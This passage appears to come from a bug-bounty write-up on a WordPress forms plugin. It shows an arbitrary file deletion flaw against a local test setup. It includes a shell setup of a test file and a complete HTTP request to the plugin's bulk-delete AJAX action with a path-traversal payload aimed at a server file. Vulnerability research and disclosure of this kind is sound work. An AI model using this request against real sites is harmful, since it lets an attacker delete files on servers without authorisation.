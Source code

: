 Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240822191742.png)

After clicking the button, it'll send AJAX action `bitforms_create_new_form` to create a new form. If the form created successfully, it returns the form ID in object `data` attribute `id`.

Now that we have a valid form, let's try to delete a test file:

```shell
root@9e2f4f189063:/var/www/html# echo -n 'test' > test.txt
root@9e2f4f189063:/var/www/html# chown www-data:www-data test.txt
root@9e2f4f189063:/var/www/html# ls -lah test.txt
-rw-r--r-- 1 www-data www-data 4 Aug 22 11:09 test.txt
```

```http
POST /wp-admin/admin-ajax.php?action=bitforms_bulk_delete_form_entries&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 30
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"formID":"1","entries":["../../../../../../../../../../../../../var/www/html/test.txt"]}
```
